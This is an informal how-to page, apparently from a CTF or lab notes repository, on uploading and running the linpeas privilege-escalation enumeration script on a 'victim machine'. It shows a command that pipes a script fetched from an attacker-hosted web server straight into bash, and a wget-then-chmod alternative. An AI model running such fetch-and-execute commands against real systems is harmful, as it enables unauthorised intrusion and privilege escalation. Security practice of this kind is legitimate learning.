 # Using linpeas on the victim machine

In case you're looking for something (cronjob, file with escalated privileges, etc.) for privilege escalation, but you're not sure how to go about it, go into _/tmp_ and download there to get linpeas onto the system. It's amateur since it automates the enumeration but well, I am an amateur so lmao.

Anyways, _linpeas_ has to be uploaded one way or another to the victim machine to be able to use it. It's just a shell script, but there are multiple ways to get it there.

## Method 1 - Curl

**Step 1:** Set up a _Python Web Server_ in the directory with the _linpeas.sh_ file

![image](https://github.com/user-attachments/assets/7c405d31-8c17-4448-a217-8dcf44b96706)

**Step 2:** After it's hosted, ```curl``` it and pipe it immediately into _bash_ to run it immediately, like so:

```
curl http://[IP Address]:[Port]/linpeas.sh | bash
```

**Step 3:** Stonks

![image](https://github.com/user-attachments/assets/13e05253-468e-43a8-be55-60d5e3eca616)

## Method 2 - Wget

**Step 1:** Repeat of step 1 in method 1

**Step 2:** Pretty much the same thing, but this time use ```wget```:

```
wget http://[IP Address]:[Port]/linpeas.sh
```

**Step 3:** Since you're not executing it directly after getting it like in method 1, be sure to check permissions of _linpeas.sh_ and make sure it's executable, if not, do this:

```
chmod +x linpeas.sh
```

Then check again using ```ls -l```

**Step 4:** Execute the script
